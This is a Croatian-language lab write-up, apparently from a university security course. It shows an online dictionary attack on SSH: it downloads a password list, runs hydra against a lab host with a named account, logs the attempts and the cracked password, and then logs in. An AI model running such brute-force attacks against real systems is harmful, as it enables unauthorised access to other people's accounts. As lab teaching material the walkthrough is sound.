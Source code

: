 Očito je da kombinacija ima stvarno puno, a zbog ograničenja servera ovakav bi napad trajao vrlo, vrlo dugo. Zato bi bilo idealno smanjiti broj šifri koje moramo probati.

Ovo radimo korištenjem ***pre-computed dictionary*-ja**. Prvo ga treba preuzeti s lokalnog servera:

```bash
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507/ab$ wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g1/
--2021-12-20 13:19:45--  http://a507-server.local:8080/dictionary/g1/
Resolving a507-server.local (a507-server.local)... 10.0.1.172, fe80::aaa1:59ff:fe69:5278
Connecting to a507-server.local (a507-server.local)|10.0.1.172|:8080... connected.
HTTP request sent, awaiting response... 200 OK
......
FINISHED --2021-12-20 13:19:46--
Total wall clock time: 0.1s
Downloaded: 3 files, 353K in 0.03s (11.7 MB/s)
```

Sada smo spremni za *online* napad, koristeći unaprijed napravljen riječnik lozinki. U ovom se riječniku nalazi 878 šifri, što je puno manje od početnog *password space*-a. Napad izvodimo ovako:

```bash
hydra -l bartlovic_antonia -P dictionary/g1/dictionary_online.txt 10.0.15.6 -V -t 4 ssh

Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2021-12-20 13:43:21
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 878 login tries (l:1/p:878), ~220 tries per task
[DATA] attacking ssh://10.0.15.6:22/
[ATTEMPT] target 10.0.15.6 - login "bartlovic_antonia" - pass "kajjeg" - 1 of 878 [child 0] (0/0)
[ATTEMPT] target 10.0.15.6 - login "bartlovic_antonia" - pass "kajttg" - 2 of 878 [child 1] (0/0)
[ATTEMPT] target 10.0.15.6 - login "bartlovic_antonia" - pass "kajtze" - 3 of 878 [child 2] (0/0)
[ATTEMPT] target 10.0.15.6 - login "bartlovic_antonia" - pass "kajnek" - 4 of 878 [child 3] (0/0)
[ATTEMPT] target 10.0.15.6 - login "bartlovic_antonia" - pass "kajlzj" - 5 of 878 [child 0] (0/0)
[ATTEMPT] target 10.0.15.6 - login "bartlovic_antonia" - pass "kajnpp" - 6 of 878 [child 1] (0/0)
.......

[22][ssh] host: 10.0.15.6   login: bartlovic_antonia   password: itharm
```

*Bingo!* Otkrili smo šifru za korisničko ime `bartlovic_antonia`.

Sada se možemo ulogirati koristeći korisničko ime i otkrivenu lozinku:

```bash
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507/ab$ ssh bartlovic_antonia@10.0.15.6
bartlovic_antonia@10.0.15.6's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-91-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bartlovic_antonia@host_bartlovic_antonia:~$
```
